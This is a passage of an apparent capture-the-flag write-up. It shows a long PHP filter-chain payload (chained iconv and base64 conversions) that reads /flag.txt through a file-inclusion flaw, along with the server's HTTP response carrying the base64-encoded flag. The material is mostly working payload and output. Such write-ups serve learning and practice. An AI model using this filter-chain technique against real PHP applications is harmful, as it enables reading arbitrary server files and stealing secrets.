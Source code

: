 ```http
4-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode|dechunk|convert.base64-decode|convert.base64-decode/resource=/flag.txt
```

it is chonky boiiiii

but returns flag

```http
HTTP/1.1 200 OK
Date: Sat, 10 Feb 2024 00:10:21 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 132
Connection: close
Content-Type: text/html; charset=UTF-8



Still Under Development<Br><img src=data:base64,LlBOR01NMHhMNHVnaHtBaGhoaGhfSG9wM19VX0RpZF8hdF9ieV9UaDNfSW50ZW5kZWRfV0BAeX09MEE9IA==
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/business-cat-working-on-computer-vc5k654hbcznhjlk.gif" alt=""><figcaption></figcaption></figure>
